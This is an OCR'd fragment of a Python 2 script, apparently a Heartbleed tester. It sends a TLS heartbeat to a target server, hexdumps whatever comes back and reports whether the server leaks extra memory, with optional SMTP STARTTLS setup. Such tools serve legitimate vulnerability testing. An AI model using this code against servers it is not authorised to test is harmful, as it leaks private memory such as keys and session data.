 	
	def recvmsg(s):
	    hdr = recvall(s, 5)
	    if hdr is None:
	        print 'Unexpected EOF receiving record header - server closed connection'
	        return None, None, None
	    typ, ver, ln = struct.unpack('>BHH', hdr)
	    pay = recvall(s, ln, 10)
	    if pay is None:
	        print 'Unexpected EOF receiving record payload - server closed connection'
	        return None, None, None
	    print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
	    return typ, ver, pay
	
	def hit_hb(s, hb):
	    s.send(hb)
	    while True:
	        typ, ver, pay = recvmsg(s)
	        if typ is None:
	            print 'No heartbeat response received, server likely not vulnerable'
	            return False
	
	        if typ == 24:
	            print 'Received heartbeat response:'
	            hexdump(pay)
	            if len(pay) > 3:
	                print 'WARNING: server returned more data than it should - server is vulnerable!'
	            else:
	                print 'Server processed malformed heartbeat, but did not return any extra data.'
	            return True
	
	        if typ == 21:
	            print 'Received alert:'
	            hexdump(pay)
	            print 'Server returned error, likely not vulnerable'
	            return False
	
	BUFSIZ = 1024
	
	def main():
	    opts, args = options.parse_args()
	
	    if len(args) < 1:
	        options.print_help()
	        return
	
	    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	
	    print 'Connecting...'
	
	    s.connect((args[0], opts.port))
	
	    if opts.starttls != '':
	      print 'Sending STARTTLS Protocol Command...'
	
	    if opts.starttls == 'smtp':
	      s.recv(BUFSIZ)
	      s.send("EHLO openssl.client.net\n")
	      s.recv(BUFSIZ)
	      s.send("STARTTLS\n")
	      s.recv(BUFSIZ)
	